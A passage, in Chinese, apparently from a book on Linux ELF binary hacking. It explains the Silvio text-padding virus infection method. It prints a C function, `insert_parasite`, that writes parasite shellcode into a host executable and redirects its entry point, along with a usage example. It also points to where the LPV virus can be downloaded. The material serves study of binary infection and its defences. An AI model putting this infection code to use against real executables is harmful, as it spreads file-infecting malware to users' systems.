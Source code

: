```
        return 0;
}
```

#### 插入寄生代码

```
#define TMP "/tmp/.infected"

void insert_parasite(char *hosts_name, size_t psize, size_t hsize, uint8_t *mem, size_t end_of_text, uint8_t *parasite, uint32_t jmp_code_offset)
{
/* note: jmp_code_offset contains the
* offset into the payload shellcode that
* has the branch instruction to patch
* with the original offset so control
* flow can be transferred back to the
* host.
*/
        int ofd;
        unsigned int c;
        int i, t = 0;
        open (TMP, O_CREAT | O_WRONLY | O_TRUNC, S_IRUSR|S_IXUSR|S_IWUSR);  
        write (ofd, mem, end_of_text);
        *(uint32_t *) &parasite[jmp_code_offset] = old_e_entry;
        write (ofd, parasite, psize);
        lseek (ofd, PAGE_SIZE - psize, SEEK_CUR);
        mem += end_of_text;
        unsigned int sum = end_of_text + PAGE_SIZE;
        unsigned int last_chunk = hsize - end_of_text;
        write (ofd, mem, last_chunk);
        rename (TMP, hosts_name);
        close (ofd);
}
```

### 上述函数的使用示例

```
uint8_t *mem = mmap_host_executable("./some_prog");
silvio_text_infect("./some_prog", mem, parasite_shellcode, parasite_len);
```

### LPV 病毒

LPV 病毒使用 Silvio 填充感染，并且专为 32 位 Linux 系统设计。可在[`www.bitlackeys.org/#lpv`](http://www.bitlackeys.org/#lpv)下载。

### Silvio 填充感染的用例

讨论的 Silvio 填充感染方法非常流行，并且已经被广泛使用。在 32 位 UNIX 系统上，此方法的实现仅限于 4096 字节的寄生体，如前所述。在使用大页的新系统上，这种感染方法具有更大的潜力，并允许更大的感染（最多 0x200000 字节）。我个人使用了这种方法进行寄生体感染和可重定位代码注入，尽管我已经放弃了它，转而使用我们接下来将讨论的反向文本感染方法。
